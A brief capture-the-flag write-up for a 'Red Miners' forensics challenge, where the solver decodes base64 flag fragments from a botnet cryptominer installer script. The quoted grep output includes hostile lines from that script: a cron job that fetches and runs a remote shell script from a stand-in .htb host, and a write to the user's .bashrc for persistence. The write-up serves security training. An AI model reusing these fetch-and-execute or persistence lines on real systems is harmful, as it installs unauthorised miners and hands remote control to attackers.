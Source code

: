 # Red Miners

## Challenge description

In the race for Vitalium on Mars, the villainous Board of Arodor resorted to desperate measures, needing funds for their mining attempts. They devised a botnet specifically crafted to mine cryptocurrency covertly. We stumbled upon a sample of Arodor's miner's installer on our server. Recognizing the gravity of the situation, we launched a thorough investigation. With you as its leader, you need to unravel the inner workings of the installation mechanism. The discovery served as a turning point, revealing the extent of Arodor's desperation. However, the battle for Vitalium continued, urging us to remain vigilant and adapt our cyber defenses to counter future threats.

## Solution

As soon as you find and decode any `base64` line in the script, it will become clear that the flag is broken into parts and is located in these `base64` lines:

```bash
$ grep -rn '==' miner_installer.sh
...
636:  local url="http://tossacoin.htb/cGFydDI9Il90aDMxcl93NHkiCg=="
700:  dest=$(echo "X3QwX200cnN9Cg=="|base64 -d)
725:  echo "ZXhwb3J0IHBhcnQ0PSJfdGgzX3IzZF9wbDRuM3R9Ig==" | base64 -d >> /home/$USER/.bashrc
761:    echo '* * * * * $LDR http://tossacoin.htb/ex.sh | sh & echo -n cGFydDE9IkhUQnttMW4xbmciCg==|base64 -d > /dev/null 2>&1'
```
